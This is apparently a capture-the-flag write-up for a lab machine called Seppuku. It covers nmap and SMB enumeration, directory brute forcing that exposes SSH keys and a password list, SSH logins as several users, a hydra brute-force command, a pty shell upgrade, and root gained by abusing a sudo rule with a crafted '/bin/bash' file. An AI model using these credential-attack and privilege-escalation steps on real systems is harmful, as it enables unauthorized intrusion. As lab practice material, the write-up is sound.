# Seppuku

### Nmap enumeration

```bash
nmap -sV -sC -T4 -p- -oN ~/Desktop/labs/playground/seppuku/nmap 192.168.177.90
```

```markdown
Nmap scan report for 192.168.177.90
Host is up (0.18s latency).
Not shown: 65259 closed tcp ports (conn-refused), 268 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 cd:55:a8:e4:0f:28:bc:b2:a6:7d:41:76:bb:9f:71:f4 (RSA)
|   256 16:fa:29:e4:e0:8a:2e:7d:37:d2:6f:42:b2:dc:e9:22 (ECDSA)
|_  256 bb:74:e8:97:fa:30:8d:da:f9:5c:99:f0:d9:24:8a:d5 (ED25519)
80/tcp   open  http          nginx 1.14.2
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
139/tcp  open  netbios-ssn   Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  p��tUU        Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/empoweri0 LiteSpeed
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
| ssl-cert: Subject: commonName=seppuku/organizationName=LiteSpeedCommunity/stateOrProvinceName=NJ/countryName=US
| Not valid before: 2020-05-13T06:51:35
|_Not valid after:  2022-08-11T06:51:35
|_http-title: Did not follow redirect to https://192.168.177.90:7080/
7601/tcp open  http          Apache httpd 2.4.38 ((Debian))
|_http-title: Seppuku
|_http-server-header: Apache/2.4.38 (Debian)
8088/tcp open  http          LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Seppuku
Service Info: Host: SEPPUKU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: seppuku
|   NetBIOS computer name: SEPPUKU\x00
|   Domain name: \x00
|   FQDN: seppuku
|_  System time: 2024-01-21T14:36:27-05:00
| smb2-time: 
|   date: 2024-01-21T19:36:29
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required


```

### smb enumeration

smb is present on ports 139,445

```bash
enum4linux 192.160.177.90
```

we found users on the system&#x20;

<figure><figcaption></figcaption></figure>

```markdown
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''  

S-1-22-1-1000 Unix User\seppuku (Local User)                    
S-1-22-1-1001 Unix User\samurai (Local User)
S-1-22-1-1002 Unix User\tanto (Local User)

```

### http enumeration

. port 80 requires a login, butrueforce is dead end . it has no sub-directories

<figure><figcaption></figcaption></figure>

port 8088 it has sub-directories but don't work, rabbit-hole

<figure><figcaption></figcaption></figure>

sub-dircetories they don't work&#x20;

<figure><figcaption></figcaption></figure>

port 7601&#x20;

<figure><figcaption></figcaption></figure>

sub-directory enumeration on port 7601

```shell
gobuster dir -u http://192.168.177.90:7601/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x html,txt,php 
```

<figure><figcaption></figcaption></figure>

found a static page, on /ckeditor&#x20;

<figure><figcaption></figcaption></figure>

founds some files in keys directory

<figure><figcaption></figcaption></figure>

These two file are ssh keys to but to what users.&#x20;

<figure><figcaption></figcaption></figure>

another static page /production

<figure><figcaption></figcaption></figure>

&#x20;/secret

<figure><figcaption></figcaption></figure>

We have received a password list , we are going o use it to brute-force the ssh and see if we might gave i login. trying the private key obtained

```shell
chmod 600 private
ssh -i private tanto@192.168.177.90
```

We have access to tanto&#x20;

<figure><figcaption></figcaption></figure>

go to unrestricted terminal

```shell
which python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

enter into /home/seppuku find the local.txt, but we also see a .passwd file&#x20;

<figure><figcaption></figcaption></figure>

we have a found a password but \[12345685213456!@!@A] but its for which user

```shell
ssh samurai@192.168.177.90
```

the password we found was for samurai change to unrestricted shell

```shell
echo $$ bash
```

<figure><figcaption></figcaption></figure>

with hydra we also found the password of seppuku

```shell
hydra -l seppuku -P password.lst ssh://192.168.177.90
```

<figure><figcaption></figcaption></figure>

logging in&#x20;

<figure><figcaption></figcaption></figure>

## privilege escalation

```shell
sudo -l
```

when we run sudo -l on user samurai we see he ca run some files&#x20;

<figure><figcaption></figcaption></figure>

```markdown
(ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

we are going to create the .cgi\_bin file in tanto because it doesn't exist their

```markdown
mkdir .cgi_bin
```

<figure><figcaption></figcaption></figure>

and also we are going to create a bin file which might help has to get a root shell

```markdown
echo '/bin/bash' > bin
chmod 777 bin
```

<figure><figcaption></figcaption></figure>

root user

```markdown
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>
